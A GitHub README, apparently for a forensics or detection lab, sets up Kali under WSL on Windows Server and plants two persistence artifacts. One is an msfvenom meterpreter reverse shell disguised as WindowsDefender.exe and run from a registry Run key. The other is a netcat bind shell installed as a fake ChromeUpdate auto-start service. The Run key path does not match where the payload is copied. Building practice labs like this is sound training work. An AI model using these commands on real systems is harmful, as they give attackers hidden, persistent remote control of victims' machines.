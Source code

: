 # Installation

- [Installation](#installation)
  - [Setup](#setup)
  - [Install Kali Container](#install-kali-container)
  - [Artifact 1: Reverse Shell in Registry](#artifact-1-reverse-shell-in-registry)
    - [Kali Linux](#kali-linux)
    - [Windows](#windows)
  - [Artifact 2: Bind Shell service](#artifact-2-bind-shell-service)
    - [Kali Linux](#kali-linux-1)
    - [Windows](#windows-1)

---

## Setup

The VM is using the **Windows Server 2019 with Container**.

<br/>

---

## Install Kali Container

First download **Kali Linux** and **Ubuntu 20.04** from the following site:

- https://docs.microsoft.com/en-us/windows/wsl/install-manual

<br/>

Run `powershell.exe` as admin and execute the following command:

```
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
```

<br/>

Extract `<distro>.appx` using Powershell:

```
Rename-Item .\kali.appx .\kali.zip
Expand-Archive .\kali.zip .\kali
cd .\kali
Rename-Item .\Distro.....-amd64.appx .\kali.zip
Expand-archive .\kali.zip .\kali
cd .\kali
```

<br/>

Then run kali:

```
.\kali.exe
```

<br/>

Get the keyring deb link from https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb.

```
wget https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb
sudo apt install .\kali-archive-keyring_2020.2_all.deb
```

<br/>

Update packages:

```
apt update -y && apt upgrade -y && apt dist-upgrade -y
apt install kali-linux-core -y
```

<br/>

---

## Artifact 1: Reverse Shell in Registry

### Kali Linux

Prepare a reverse shell using `msfvenom` on Kali Linux:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.31.15.180 LPORT=4444 -f exe > WindowsDefender.exe
```

<br/>

Shift this on the Windows host `C:\Windows\System32\WindowsDefender.exe`

<br/>

### Windows

Open `cmd.exe` and run:

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsDefender /t REG_SZ /d "C:\Program Files\Defender\WindowsDefender.exe"
```

<br/>

---

## Artifact 2: Bind Shell service

### Kali Linux

Copy the `nc.exe` in `/usr/share/windows-binaries/nc.exe` to the Windows host `C:\ProgramData\Chrome\ChromeUpdate.exe`.

<br/>

### Windows

Create a service and start the service:

```
sc create ChromeUpdateService binpath= "cmd.exe /k C:\ProgramData\Chrome\ChromeUpdate.exe -L -p 2222 -e cmd.exe" start= auto
```

<br/>

---